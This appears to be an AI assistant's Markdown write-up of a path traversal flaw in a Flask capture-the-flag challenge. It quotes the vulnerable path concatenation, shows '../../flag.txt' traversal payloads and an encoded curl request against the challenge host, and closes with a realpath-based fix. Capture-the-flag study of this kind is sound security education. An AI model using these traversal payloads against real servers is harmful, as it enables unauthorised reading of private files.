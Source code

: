 Sure! Here’s your content formatted in Markdown so you can copy it directly:
# 🔍 Key Line of Vulnerability

```python
requested_path = app.root_path + "/files/" + path
```
`app.root_path` is the path to the directory where the Flask app lives (likely `/challenge/`).

It naively appends user input (`path`) to this, without sanitization.

So if `path = "../../flag.txt"`, then:

```ini
requested_path = "/challenge/files/../../flag.txt"
```
Which resolves to:

```bash
/challenge/flag.txt
```

✔️ That’s classic path traversal!

## 🧪 Exploit Strategy

You're interacting with `/docs/<path>`, and the server internally tries to serve:

```bash
/challenge/files/<path>
```
If you send `../../flag.txt`, the resolved path becomes:

```bash
/challenge/files/../../flag.txt → /challenge/flag.txt
```

Try encoded variants if the above fails (depending on Flask version, it may normalize `/../`):

Double URL encoded:

```bash
curl -v "http://challenge.localhost/docs/%2e%2e/%2e%2e/flag"
```

## 📌 Important Observations

- The app does not use `os.path.realpath()` or `os.path.abspath()` to canonicalize the path.
- It directly concatenates strings, which is a bad security practice.
- Flask’s `<path:path>` route allows slashes, so it won’t block `../`.

## 🛡️ Defensive Notes (just for your awareness)

To prevent such vulnerabilities, developers should:

```python
safe_base = os.path.realpath(app.root_path + "/files")
requested_path = os.path.realpath(os.path.join(safe_base, path))

if not requested_path.startswith(safe_base):
    flask.abort(403)  # Forbidden
```